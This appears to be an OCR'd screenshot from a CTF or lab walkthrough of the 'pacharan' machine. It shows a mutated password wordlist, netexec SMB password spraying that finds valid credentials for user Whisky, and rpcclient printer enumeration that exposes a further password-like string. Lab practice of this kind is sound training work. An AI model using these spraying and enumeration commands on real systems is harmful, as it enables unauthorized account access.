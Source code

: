 MamaSoyStreamer4$
MamaSoyStreamer5%
MamaSoyStreamer6^
MamaSoyStreamer7&
MamaSoyStreamer8*
MamaSoyStreamer9(
MamaSoyStreamer10)
MamasoyStream1er!
MamasoyStream2er@
MamasoyStream3er#
MamasoyStream4er$
MamasoyStream5er%
MamasoyStream6er^
MamasoyStream7er&
MamasoyStream8er*
MamasoyStream9er(
MamasoyStream10er)
MamasoyStr1amer!
MamasoyStr2amer@
MamasoyStr3amer#
MamasoyStr4amer$
MamasoyStr5amer%
MamasoyStr6amer^
MamasoyStr7amer&
MamasoyStr8amer*
MamasoyStr9amer(
MamasoyStr10amer)
Mamasoystreamer1


===========================================================================================================================================================================
┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ netexec smb 192.168.69.69 -u usuarios.txt -p ah.txt --continue-on-success | grep "+"
SMB                      192.168.69.69   445    WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\Whisky:MamasoyStream2er@ 
                                                                                                                  

┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ netexec smb 192.168.69.69 -u 'Whisky' -p 'MamasoyStream2er@' 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:PACHARAN.THL) (signing:True) (SMBv1:False)
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\Whisky:MamasoyStream2er@ 


===========================================================================================================================================================================
──(kali㉿kali)-[~/Documents/pacharan]
└─$ rpcclient -U 'Whisky%MamasoyStream2er@' 192.168.69.69

rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\192.168.69.69\Soy Hacker y arreglo impresoras]
        description:[\\192.168.69.69\Soy Hacker y arreglo impresoras,Universal Document Converter,TurkisArrusPuchuchuSiu1]
        comment:[Soy Hacker y arreglo impresoras]
